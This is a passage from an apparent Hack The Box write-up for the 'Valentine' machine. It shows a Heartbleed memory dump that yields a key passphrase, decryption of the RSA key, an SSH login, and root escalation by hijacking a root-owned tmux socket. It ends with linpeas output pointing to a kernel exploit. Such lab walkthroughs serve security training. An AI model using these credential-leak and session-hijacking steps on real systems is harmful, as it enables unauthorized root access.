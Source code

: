 ```
00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D A6  mV0aGVoeXBlCg==.
```

so what we got here is `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.` let use the decode.php to decode it. it gave us `heartbleedbelievethehype`. I assume it is the password for our rsa_pem file. now let run `openssl` to decrypt it again!
```console
bibo318@parrot:~/HTB/valentine$ openssl rsa -in rsa_encrypted -out rsa_key
Enter pass phrase for rsa_encrypted:
writing RSA key
```
now let ssh into valentine!
```console
bibo318@parrot:~/HTB/valentine$ ssh hype@valentine.htb -i rsa_key 
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
```
WE ARE IN, let grab the flag.

# root solution 1
from `linpeas.sh`, I found out that root user is currently using `tmux`. I then check **HackTricks** (again) and I found this [tmux sessions hijacking](https://book.hacktricks.xyz/linux-unix/privilege-escalation#tmux-sessions-hijacking). 
```console
[+] Searching tmux sessions
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions

root       1007  0.0  0.1  26416  1672 ?        Ss   10:59   0:01 /usr/bin/tmux -S /.devs/dev_sess
```
So let just follow it step by step:
```console
hype@Valentine:~$ tmux ls
failed to connect to server: No such file or directory
```
nope it didnt work, let google more and I found a blog post by [int0x33](https://medium.com/@int0x33/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0)
```console
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct  5 10:59 /.devs/dev_sess
hype@Valentine:~$ tmux -S /.devs/dev_sess
[detached]
root@Valentine:/home/hype# cat /root/root.txt
```
BOOM ! 
# root solution 2
again, linpeas.sh give us anoter hit. wich is kernel-exploit
```
+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 3.2.0-23-generic (buildd@crested) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu4) ) #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012
Distributor ID:	Ubuntu
Description:	Ubuntu 12.04 LTS
Release:	12.04
Codename:	precise
```